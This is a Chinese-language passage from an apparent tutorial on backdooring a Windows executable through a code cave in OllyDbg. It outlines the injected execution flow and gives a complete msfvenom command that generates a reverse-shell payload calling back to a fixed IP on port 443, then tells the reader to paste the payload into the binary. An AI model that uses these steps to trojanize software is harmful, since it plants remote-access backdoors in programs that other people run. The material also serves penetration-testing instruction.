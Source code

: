 图 35 — [OllyDbg]按下 F7 进入我们的代码洞穴

## 代码洞穴魔法

是时候将以下执行流添加到代码洞穴中了:

```
PUSHAD - Save the register values
PUSHFD - Save the flag values
<-- Reverse Shell -->
<-- Stack Alignment (ESP) -->
POPFD - Restore the flag values
POPAD - Restore the register values
<-- Return to the original function -->
```

![](img/c9fd430c0d25ae99579824b489d780d5.png)

图 36[OllyDbg]-添加“PUSHAD”和“PUSHFD”

让我们创建一个十六进制格式的“msfvenom”反向外壳:

```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.117.131 LPORT=443 -f hex
```

![](img/1988400ae2fc4029abdec5bed327e5f3.png)

图 37 — [msfvenom]反向外壳负载

为了添加创建的“msfvenom”有效负载，我们需要在代码 cave 中突出足够的空间，并将其作为“二进制粘贴”进行粘贴。
